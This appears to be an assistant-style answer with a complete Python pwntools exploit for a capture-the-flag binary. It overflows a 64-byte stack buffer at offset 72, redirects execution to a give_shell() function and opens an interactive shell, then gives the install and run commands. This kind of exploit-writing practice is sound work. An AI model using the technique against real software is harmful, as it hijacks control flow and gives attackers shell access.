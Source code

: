Below is a **complete Python exploit** using `pwntools` that:

1. Finds the correct offset,
2. Leaks the address of `give_shell()` from the binary,
3. Constructs the payload to overflow and redirect execution to `give_shell()`.

---

### ✅ Exploit Script: `exploit.py`

```python
from pwn import *

# Load binary
elf = ELF("/opt/challenge/vuln")

# Start process
p = process(elf.path)

# Step 1: Offset found from pattern (64 bytes buffer + 8 bytes saved RBP)
offset = 72

# Step 2: Get the address of give_shell
give_shell = elf.symbols['give_shell']
log.success(f"give_shell() is at {hex(give_shell)}")

# Step 3: Build the payload
payload = b"A" * offset + p64(give_shell)

# Step 4: Send payload
p.recvuntil(b"Enter your secret message: ")
p.sendline(payload)

# Step 5: Get shell
p.interactive()

```

---

### ⚙️ How to Run It

1. **Install pwntools** (if not already):

```bash
pip install pwntools

```

1. **Run the exploit**:

```bash
python3 exploit.py

```

---